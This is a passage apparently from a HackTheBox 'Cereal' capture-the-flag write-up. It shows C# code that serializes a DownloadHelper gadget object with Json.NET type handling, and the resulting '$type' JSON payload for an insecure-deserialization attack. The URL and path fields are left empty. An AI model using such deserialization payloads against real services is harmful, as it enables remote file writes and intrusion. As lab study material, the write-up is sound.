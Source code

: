```cs
            }
        }

        //https://stackoverflow.com/a/14826068
        public static string ReplaceLastOccurrence(string Source, string Find, string Replace)
        {
            int place = Source.LastIndexOf(Find);

            if (place == -1)
                return Source;

            string result = Source.Remove(place, Find.Length).Insert(place, Replace);
            return result;
        }

        private void Download()
        {
            using (WebClient wc = new WebClient())
            {
                if (!string.IsNullOrEmpty(_URL) && !string.IsNullOrEmpty(_FilePath))
                {
                    //wc.DownloadFile(_URL, ReplaceLastOccurrence(_FilePath,"\\", "\\21098374243-"));
                }
            }
        }
    }

public class Program
{
	public static void Main()
	{
			DownloadHelper obj = new DownloadHelper();
            obj.URL = "";
            obj.FilePath = "";
            string json = JsonConvert.SerializeObject(obj, new JsonSerializerSettings()
            {
                TypeNameHandling = TypeNameHandling.Objects,
                TypeNameAssemblyFormat = System.Runtime.Serialization.Formatters.FormatterAssemblyStyle.Simple
            });
            Console.WriteLine(json);
	}
}
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2002:46:08.png)

And here we have our payload

```json
{"$type":"DownloadHelper, 4orwi1sa","URL":"","FilePath":""}
```
